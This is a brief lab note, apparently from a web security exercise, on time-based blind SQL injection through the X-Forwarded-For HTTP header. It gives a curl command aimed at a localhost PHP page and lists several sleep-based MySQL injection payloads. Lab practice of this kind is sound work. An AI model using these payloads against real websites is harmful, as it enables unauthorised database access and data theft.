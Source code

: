 LAB2:   [HEADER] X-Forwarded-For SQLi Injection:

apt install time

time curl -s -H "X-Forwarded-For: '+(select*from(select(if(1=1,sleep(20),false)))a)+'" --url "http://localhost/forwarded.php"

Tool used: sql_headers-x-forwarded-for.py



"XOR(if(now()=sysdate(),sleep(20),0))OR"
' or sleep(20)#
0'XOR(if(now()=sysdate(),sleep(20),0))XOR'Z
(select*from(select(sleep(20)))a)
'+(select*from(select(if(1=1,sleep(20),false)))a)+'